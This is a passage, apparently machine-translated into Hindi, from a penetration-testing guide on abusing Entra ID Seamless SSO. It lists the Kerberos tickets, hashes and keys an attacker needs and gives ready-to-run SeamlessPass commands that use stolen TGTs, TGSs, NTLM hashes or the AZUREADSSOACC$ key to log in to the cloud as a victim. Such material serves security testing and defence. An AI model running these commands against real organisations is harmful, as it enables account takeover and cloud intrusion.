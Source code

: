 > [!WARNING]
> इस हमले के बारे में जानने वाली मुख्य बात यह है कि केवल TGT या किसी उपयोगकर्ता का एक विशिष्ट TGS जो Entra ID के साथ समन्वयित है, क्लाउड संसाधनों तक पहुँचने के लिए पर्याप्त है।\
> इसका कारण यह है कि यह एक टिकट है जो उपयोगकर्ता को क्लाउड में लॉगिन करने की अनुमति देता है।

TGS टिकट प्राप्त करने के लिए, हमलावर को निम्नलिखित में से एक होना चाहिए:
- **एक समझौता किए गए उपयोगकर्ता का TGS:** यदि आप `HTTP/autologon.microsoftazuread-sso.com` के लिए टिकट के साथ एक उपयोगकर्ता के सत्र को समझौता करते हैं, तो आप इसका उपयोग क्लाउड संसाधनों तक पहुँचने के लिए कर सकते हैं।
- **एक समझौता किए गए उपयोगकर्ता का TGT:** भले ही आपके पास एक न हो लेकिन उपयोगकर्ता समझौता किया गया था, आप कई उपकरणों में लागू किए गए नकली TGT प्रतिनिधित्व चाल का उपयोग करके एक प्राप्त कर सकते हैं जैसे [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) और [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9)।
- **एक समझौता किए गए उपयोगकर्ता का हैश या पासवर्ड:** SeamlessPass इस जानकारी के साथ डोमेन नियंत्रक के साथ संवाद करेगा ताकि TGT उत्पन्न किया जा सके और फिर TGS।
- **एक गोल्डन टिकट:** यदि आपके पास KRBTGT कुंजी है, तो आप उस उपयोगकर्ता के लिए आवश्यक TGT बना सकते हैं जिसे आप हमला कर रहे हैं।
- **AZUREADSSOACC$ खाता हैश या पासवर्ड:** इस जानकारी और उपयोगकर्ता के सुरक्षा पहचानकर्ता (SID) के साथ हमला करना संभव है कि एक सेवा टिकट बनाया जाए और क्लाउड के साथ प्रमाणित किया जाए (जैसा कि पिछले तरीके में किया गया था)।

### [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass)

जैसा कि [इस ब्लॉग पोस्ट में समझाया गया है](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/), पिछले आवश्यकताओं में से कोई भी होने पर **SeamlessPass** उपकरण का उपयोग करना बहुत आसान है ताकि समझौता किए गए उपयोगकर्ता के रूप में, या किसी भी उपयोगकर्ता के रूप में यदि आपके पास **`AZUREADSSOACC$`** खाता हैश या पासवर्ड है।

अंत में, TGT के साथ [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) उपकरण का उपयोग करना संभव है:
```bash
# Using the TGT to access the cloud
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_encoded_TGT>
# Using the TGS to access the cloud
seamlesspass -tenant corp.com -tgs user_tgs.ccache
# Using the victims account hash or password to access the cloud
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -username user -ntlm DEADBEEFDEADBEEFDEADBEEFDEADBEEF
seamlesspass -tenant corp.com -domain corp.local -dc 10.0.1.2 -username user -password password
# Using the AZUREADSSOACC$ account hash (ntlm or aes) to access the cloud with a specific user SID and domain SID
seamlesspass -tenant corp.com -adssoacc-ntlm DEADBEEFDEADBEEFDEADBEEFDEADBEEF -user-sid S-1-5-21-1234567890-1234567890-1234567890-1234
seamlesspass -tenant corp.com -adssoacc-aes DEADBEEFDEADBEEFDEADBEEFDEADBEEF -domain-sid S-1-5-21-1234567890-1234567890-1234567890 -user-rid 1234
wmic useraccount get name,sid # Get the user SIDs
```
Firefox को seamless SSO के साथ काम करने के लिए और जानकारी [**इस ब्लॉग पोस्ट में**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/) मिल सकती है।


### AZUREADSSOACC$ खाते के हैश प्राप्त करना

